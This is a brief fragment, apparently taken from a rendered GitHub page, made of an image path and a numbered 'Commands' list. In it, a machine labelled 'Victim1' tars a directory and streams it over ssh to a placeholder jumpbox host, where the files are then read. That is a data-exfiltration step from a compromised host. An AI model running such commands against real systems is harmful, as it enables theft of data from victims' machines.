## Commands:

#### 1) Victim1: tar cf - dir/ | ssh USER@JUMPBOX_IP

#### 2) Jumpbox: cd /tmp/dir

#### cat data.txt
